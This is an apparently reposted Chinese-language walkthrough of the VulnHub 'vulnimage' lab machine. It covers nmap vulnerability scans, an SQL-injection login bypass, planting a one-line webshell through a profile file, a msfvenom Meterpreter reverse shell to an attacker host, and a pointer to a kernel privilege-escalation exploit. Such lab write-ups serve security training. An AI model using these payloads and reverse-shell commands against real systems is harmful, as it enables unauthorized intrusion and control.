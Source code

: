 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/xx1mhMSim6H86ZS0iNfv7A)

**0x01** Introduction  

* * *

虚拟机下载页面：https://download.vulnhub.com/vulnimage/vulnimage.zip  

Description

```
"Created for Lars's students"

Source: *e-mail*
```

‍

**0x02 Writeup**  

#### 1 信息收集

##### 1.1 端口信息

nmap 扫描开放端口

```
nmap -sS -sV -p 1-65535 -T4 10.0.0.147
```

![图片](https://mmbiz.qpic.cn/mmbiz_png/zSNEpUdpZQS3Wv6ocNXFvar3amjUP34aunK4Yh9lgq87Eibo4OVW7ickibEC5bbiaDJxS0pdjZE1F2zgCKjpYWuMnw/640?wx_fmt=png)

##### 1.2 主机漏洞信息  

nmap 漏洞脚本库：

```
root@kali:~# nmap --script=vuln -p 22,25,80,139,445,3306 10.0.0.147
 22/tcp   open  ssh
 |_clamav-exec: ERROR: Script execution failed (use -d to debug)
 25/tcp   open smtp
 |_clamav-exec: ERROR: Script execution failed (use -d to debug)
 | smtp-vuln-cve2010-4344:
 |   Exim version: 4.50
 |   Exim heap overflow vulnerability (CVE-2010-4344):
 |     Exim (CVE-2010-4344): LIKELY VULNERABLE
 |   Exim privileges escalation vulnerability (CVE-2010-4345):
 |     Exim (CVE-2010-4345): LIKELY VULNERABLE
 |_ To confirm and exploit the vulnerabilities, run with --script-args='smtp-vuln-cve2010-4344.exploit'
 |_sslv2-drown:
 80/tcp   open http
 |_clamav-exec: ERROR: Script execution failed (use -d to debug)
 |_http-csrf: Couldn't find any CSRF vulnerabilities.
 |_http-dombased-xss: Couldn't find any DOM based XSS.
 | http-enum:
 |   /repo/: Possible code repository
 |   /admin/: Possible admin folder
 |   /view/index.shtml: Axis 212 PTZ Network Camera
 |   /icons/: Potentially interesting folder w/ directory listing
 |_ /view/: Potentially interesting folder
 | http-slowloris-check:
 |   VULNERABLE:
 |   Slowloris DOS attack
 |     State: LIKELY VULNERABLE
 |     IDs: CVE:CVE-2007-6750
 |       Slowloris tries to keep many connections to the target web server open and hold
 |       them open as long as possible. It accomplishes this by opening connections to
 |       the target web server and sending a partial request. By doing so, it starves
 |       the http server's resources causing Denial Of Service.
 |
 |     Disclosure date: 2009-09-17
 |     References:
 |       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
 |_     http://ha.ckers.org/slowloris/
 |_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
 |_http-trace: TRACE is enabled
 | http-vuln-cve2011-3192:
 |   VULNERABLE:
 |   Apache byterange filter DoS
 |     State: VULNERABLE
 |     IDs: BID:49303 CVE:CVE-2011-3192
 |       The Apache web server is vulnerable to a denial of service attack when numerous
 |       overlapping byte ranges are requested.
 |     Disclosure date: 2011-08-19
 |     References:
 |       https://seclists.org/fulldisclosure/2011/Aug/175
 |       https://www.securityfocus.com/bid/49303
 |       https://www.tenable.com/plugins/nessus/55976
 |_     https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-3192
 139/tcp open netbios-ssn
 |_clamav-exec: ERROR: Script execution failed (use -d to debug)
 445/tcp open microsoft-ds
 |_clamav-exec: ERROR: Script execution failed (use -d to debug)
 3306/tcp open mysql
 |_clamav-exec: ERROR: Script execution failed (use -d to debug)
 MAC Address: 00:0C:29:A0:6E:A4 (VMware)
 
 Host script results:
 |_samba-vuln-cve-2012-1182: Could not negotiate a connection:SMB: ERROR: Server returned less data than it was supposed to (one or more fields are missing); aborting [14]
 |_smb-vuln-ms10-054: false
 |_smb-vuln-ms10-061: Could not negotiate a connection:SMB: ERROR: Server returned less data than it was supposed to (one or more fields are missing); aborting [14]
 | smb-vuln-regsvc-dos:
 |   VULNERABLE:
 |   Service regsvc in Microsoft Windows systems vulnerable to denial of service
 |     State: VULNERABLE
 |       The service regsvc in Microsoft Windows 2000 systems is vulnerable to denial of service caused by a null deference
 |       pointer. This script will crash the service if it is vulnerable. This vulnerability was discovered by Ron Bowes
 |       while working on smb-enum-sessions.
 |_
```

##### 1.3 Web 应用方面

应用版本信息：

![图片](https://mmbiz.qpic.cn/mmbiz_png/zSNEpUdpZQS3Wv6ocNXFvar3amjUP34aA80feLvT9d7qJmYSC68EQ1JZxluvH2MaHv46b6x8wWrw6jB0d0e8Sg/640?wx_fmt=png)

目录扫描：  

```
http://10.0.0.147/admin
http://10.0.0.147/admin/profile.php
http://10.0.0.147/profiles/blogger-sig.txt
```

#### 2 Flag 获取

##### 2.1 getshell

访问 80 网站首页为一个系统登录页面，测试常见 web 漏洞。

使用 burp 抓取 post 包，

![图片](https://mmbiz.qpic.cn/mmbiz_png/zSNEpUdpZQS3Wv6ocNXFvar3amjUP34azByicdfFCeqF4cSamg49LDRbvmUTQGkalkuxYmgWs3Uc6ZuIURK7bkg/640?wx_fmt=png)

在登陆处 password 参数存在 SQL 注入，其中网站根目录物理路径为 / var/www。  

观察报错处的 sql 语句得到绕过密码' or 1=1 -- -，登陆尝试

![图片](https://mmbiz.qpic.cn/mmbiz_png/zSNEpUdpZQS3Wv6ocNXFvar3amjUP34alnaiaBuglJaksia31q5D0icKHNiaYomRvJNalTW9PNf1UZn4aymhzwGLdw/640?wx_fmt=png)

成功登陆（也可以使用 sqlmap）

![图片](https://mmbiz.qpic.cn/mmbiz_png/zSNEpUdpZQS3Wv6ocNXFvar3amjUP34azlcs7dFKgK1FgbxCIcnAyjcrUmV1jlU0nwHDyuA40L08GNVI833v9w/640?wx_fmt=png)

![图片](https://mmbiz.qpic.cn/mmbiz_png/zSNEpUdpZQS3Wv6ocNXFvar3amjUP34aEXokfS7FtzkWkia1hbEgXvuaIIMsWSkL6GQnfTsUicgYkPLicC3mxu6pg/640?wx_fmt=png)

![图片](https://mmbiz.qpic.cn/mmbiz_png/zSNEpUdpZQS3Wv6ocNXFvar3amjUP34aVjlJA30biajwHD4YvoVMjibzAPWSvMqRSrBXduX9eQ2Y3sakbbC17TGw/640?wx_fmt=png)

从上面知道，用账户 + 密码 + 内容新建页面后可在 profiles 文件件下创建账户 - sing.txt 的文件，文件内容为自己提交内容。思路为创建一句话木马文件，至于固定的 sing.txt 查看元素  

![图片](https://mmbiz.qpic.cn/mmbiz_png/zSNEpUdpZQS3Wv6ocNXFvar3amjUP34a4vNHbT6yTEEGZtQrj2gEK8vERR90soNDEibFeNXTbUFIXwp7nKla9nQ/640?wx_fmt=png)

提交，成功 getshell  

![图片](https://mmbiz.qpic.cn/mmbiz_png/zSNEpUdpZQS3Wv6ocNXFvar3amjUP34aM6bX7WQJP9X29QgefSMMwuTdNlTeH1v6SuFRx984mn4O1yz6icoq9qg/640?wx_fmt=png)

##### 2.2 权限提升  

###### 2.2.1 shell 反弹

现在 msf 反弹 shell

```
root@kali:~# msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.0.0.129 LPORT=4545 -f elf > shell.elf
 msf5 > use exploit/multi/handler
 msf5 exploit(multi/handler) > set payload linux/x86/meterpreter/reverse_tcp
 payload => linux/x86/meterpreter/reverse_tcp
 msf5 exploit(multi/handler) > set LPORT 4545
 msf5 exploit(multi/handler) > set LHOST 10.0.0.129
 msf5 exploit(multi/handler) > run
```

![图片](https://mmbiz.qpic.cn/mmbiz_png/zSNEpUdpZQS3Wv6ocNXFvar3amjUP34afSXkryiaqaFSjtz70BMic0Iz2cfaYQ6sDg8XGLI4bic5Xt6UGlxpGfLxA/640?wx_fmt=png)

收集系统信息

```
uname -a
  cat /etc/redhat-release
  cat /etc/crontab
  crontab -l
  ……
```

![图片](https://mmbiz.qpic.cn/mmbiz_png/zSNEpUdpZQS3Wv6ocNXFvar3amjUP34adrZIkhicasem2M0sxfVrUZ8I3qxWeESP5IiaAjmUd8hAGMCjGPCgb3HQ/640?wx_fmt=png)

###### 2.2.2 内核提权  

在 exploit-db 上搜索内核为 2.6.8 的本地权限提升 exp

https://www.exploit-db.com/exploits/9574

![图片](https://mmbiz.qpic.cn/mmbiz_png/zSNEpUdpZQS3Wv6ocNXFvar3amjUP34aITteA6zaxpmXxNOjfMSkz2cbcyGBM5giab3nKvficX0TMBaOXzNr2ybQ/640?wx_fmt=png)

![图片](https://mmbiz.qpic.cn/mmbiz_png/zSNEpUdpZQS3Wv6ocNXFvar3amjUP34axHFrT3DuD7qyZCDwORjKzGZK3454z2icKQyBgrj1JQfj0n0jhB0pbtw/640?wx_fmt=png)

更多精彩

*   [Web 渗透技术初级课程介绍](http://mp.weixin.qq.com/s?__biz=MzU2OTUxOTE2MQ==&mid=2247486030&idx=2&sn=185f303a2f1b5267c0865f117931959d&chksm=fcfc3718cb8bbe0e6f3ca97859e78342852537da2bef3cd76a83cb90ee64a8ca8953b35aa67e&scene=21#wechat_redirect)
    
*   [](http://mp.weixin.qq.com/s?__biz=MzU2OTUxOTE2MQ==&mid=2247486968&idx=1&sn=7f66208298cf2cec57286947ddb8b223&chksm=fcfc30aecb8bb9b8333c1d05976dbdbf33d34f2a0d2b0cdfc41e835d29b9b4bcfc352504f8e4&scene=21#wechat_redirect)[vulnhub 之 SECARMY VILLAGE: GRAYHAT CONFERENCE 靶场 writeup](http://mp.weixin.qq.com/s?__biz=MzU2OTUxOTE2MQ==&mid=2247487087&idx=1&sn=608b289cd49a502720777dd037c66406&chksm=fcfc3339cb8bba2f4c7d17fc13fc9fc7168fb90ee2d7ea81a94918d92e8e309fc3a2f3e247b3&scene=21#wechat_redirect)  
    
*   [商务合作](http://mp.weixin.qq.com/s?__biz=MzU2OTUxOTE2MQ==&mid=2247486808&idx=1&sn=f50f15f9a3ab7312a08b1f932292faca&chksm=fcfc300ecb8bb918213c6070d864ffcd70ad27ab6525521c31e9ccaa57bdfa2968360ed7e8fe&scene=21#wechat_redirect)
    

![](https://mmbiz.qpic.cn/mmbiz_png/zSNEpUdpZQSd9wDlUiar0tUpHCYAzrZfTzOvS2SEw9cia9j7d1HKP2bWArPLCegs1XoejVUPu0GkSuZh7Wia7aExA/640?wx_fmt=png)

**如果感觉文章不错，分享让更多的人知道吧！**
